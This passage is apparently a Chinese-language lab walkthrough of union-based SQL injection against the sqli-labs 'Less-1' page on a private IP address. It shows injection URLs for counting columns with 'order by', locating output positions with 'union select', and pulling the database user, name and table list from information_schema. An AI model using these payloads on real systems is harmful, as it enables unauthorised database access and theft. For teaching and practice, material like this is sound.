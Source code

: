 `http://10.60.250.214/Less-1/?id=1%27%20order%20by%204%23`

![10](https://i.imgur.com/lfKFcjO.png)

图片上的报错信息是:

`SELECT * FROM users WHERE id='1' order by 4#' LIMIT 0,1
Unknown column '4' in 'order clause'`

说明第4个字段不存在,那就只有3个字段。

#### 猜字段排序 ####

使用union select联合查询,后面接查到的字段个数。如下:

`http://10.60.250.214/Less-1/?id=1%27%20union%20select%201,2,3%23`

![11](https://i.imgur.com/uyB1sZ5.png)

可是怎么让我填写的数字显示出来呢,这就是个问题了,查看一下源码:

![12](https://i.imgur.com/T9tGY5M.png)

标记的位置就是关键函数。mysql_fetch_array函数会从返回查询到的数据的一行,这里我查询到的是id=1的数据,改变id能查询到另外的数据,修改id=2。

`http://10.60.250.214/Less-1/?id=2%27%20union%20select%201,2,3%23`

![13](https://i.imgur.com/iQTBrk4.png)

显示出id=2的数据信息。

将id修改为数据表中不可能存在的一个数,前面查询会变为空,执行我们的联合查询语句。这里将id修改为-1。

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,2,3%23`

![14](https://i.imgur.com/EtoeD7e.png)

显示出字段顺序,推测字段中排序顺序应该是id,name,password。

### 获取数据库信息 ###
user():返回当前数据库连接使用的用户

database():返回当前数据库连接使用的数据库

version():返回当前数据库的版本

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,user(),database()%23`

![15](https://i.imgur.com/O4iLDlC.png)

### 获取表 ###

group_concat函数:将查询到的多行结果连接成字符串

`http://10.60.250.214/Less-1/?id=-1%27%20union%20select%201,user(),group_concat(table_name) from information_schema.tables where table_schema=database()%23`

![16](https://i.imgur.com/aW1ZQ52.png)
